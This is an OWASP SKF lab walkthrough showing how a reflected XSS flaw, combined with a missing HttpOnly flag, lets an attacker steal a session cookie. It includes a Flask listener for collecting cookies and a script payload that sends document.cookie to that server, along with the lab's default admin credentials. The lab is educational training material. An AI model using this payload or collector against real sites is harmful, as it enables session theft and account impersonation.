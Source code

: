 # HttpOnly session hijacking XSS

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

{% hint style="warning" %}
This exercise does not work for chrome!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin\
password: admin
{% endhint %}

![](../../.gitbook/assets/session-hijacking-xss-1.png)

After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/session-hijacking-xss-2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/session-hijacking-xss-3.png)

![](../../.gitbook/assets/session-hijacking-xss-4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/session-hijacking-xss-5.png)

```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](../../.gitbook/assets/session-hijacking-xss-6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
